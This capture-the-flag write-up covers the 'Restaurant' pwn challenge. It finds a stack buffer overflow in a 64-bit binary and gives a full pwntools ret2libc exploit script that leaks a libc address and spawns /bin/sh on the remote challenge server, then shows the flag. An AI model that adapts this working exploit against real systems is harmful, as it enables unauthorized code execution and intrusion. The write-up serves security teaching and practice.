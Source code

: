 # Restaurant
> Write-up author: vreshco
## DESCRIPTION:
Welcome to our Restaurant. Here, you can eat and drink as much as you want! Just don't overdo it..
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115116-506eedf0-2fd5-4456-821b-2e840a5b4910.png)


2. Let's check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115265-0417d28f-2401-4961-a53b-0b84149e075c.png)


3. Now we know, the **restaurant** is a 64 bit binary file and it's not stripped, let's check the binary's protections.

> VULN - NO CANARY FOUND, NO PIE.

![image](https://user-images.githubusercontent.com/70703371/218116059-7fc94767-9177-42f5-b2cd-66e4deba8b90.png)


4. Now let's decompile the binary using ghidra.
5. At the `fill()` function, looks like there's a bufferoverflow, not only that we can leak the address of puts().

![image](https://user-images.githubusercontent.com/70703371/218119145-7fe380f3-fbfb-44a0-9c7f-876f5c90b093.png)


6. Let's get the offset of RIP first by get a segmentation fault with running the binary in gdb.
7. Enter 1024 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218121772-d33483b6-d7ee-4d9e-90b6-9216d265edc1.png)


8. Since there's no value leaked at the RIP, we can use the RSP offset.

> RESULT - 40

![image](https://user-images.githubusercontent.com/70703371/218122089-5186b81e-be34-4433-8d53-9745341c834d.png)


9. Well, notice that there's no interesting function to jump or flag function, then we given a libc library, hence the approach here is `ROP`.
10. The steps here, first we need to craft a `ROP exploit` so we can leak any library function's address.
11. Find the correct libc library used (in this case we don't need to, because we the library is given).
12. Calculate & set the ASLR base address of libc library used in the server.
13. ROP payload for system call bash.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './restaurant'
libc_library = './libc.so.6'
elf = context.binary = ELF(exe, checksec=False)
libc = context.binary = ELF(libc_library, checksec=False)
context.log_level = 'debug'

sh = start()

offsetRsp = b'A' * 40

### 1ST PAYLOAD

rop = ROP(elf) 
rop.call(elf.plt['puts'], [next(elf.search(b''))])

rop.call(elf.plt['puts'], [elf.got['puts']])

# for stack alignment (must align to 16 bytes)
rop.call((rop.find_gadget(['ret']))[0]) 
#print(rop.dump()) # to see the alignment

# goes back to fill(), so we can setup our next ROP
rop.call(elf.sym['fill']) 

# combine into usable payload
ropGetlibcaslr_addr = offsetRsp + rop.chain()
log.info(rop.dump())

sh.sendlineafter(b'>', b'1')
# exploit the vuln to print out the ASLR addr of puts() for libc in the server
sh.sendlineafter(b'>', ropGetlibcaslr_addr) 

# ignore empty space printed to us
sh.recvuntil(b'\n')
# ignore the 1st line statement printed to use as is 
# by the program to tell us "Enjoy your <input value>" before reaching RET
sh.recvuntil(b'\n') 

# get the leaked address of ASLR puts()
leakedputsLibc = u64(sh.recvuntil(b'\n').strip().ljust(8, b'\x00'))
info('Server libc, puts() addr: %#x', leakedputsLibc)

serverLibcbase_addr = leakedputsLibc - libc.symbols['puts']
info('Server libc base addr: %#x', serverLibcbase_addr)

libc.address = serverLibcbase_addr

### 2ND PAYLOAD - craft sys call to /bin/sh

ropLibc = ROP(libc)
ropLibc.call((ropLibc.find_gadget(['ret']))[0]) # align stack (16 bytes)
ropLibc.call(libc.sym['system'], [next(libc.search(b'/bin/sh\x00'))])

# combine into usable payload
ropGetbash = offsetRsp + ropLibc.chain()
log.info(ropLibc.dump())

### GET SHELL
sh.sendlineafter(b'>', ropGetbash)
sh.interactive()
```

14. Run the script remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218248357-633b42a1-5501-413e-ac46-7cedf555012d.png)


15. Got the flag!

## FLAG

```
HTB{r3turn_2_th3_r3st4ur4nt!}
```


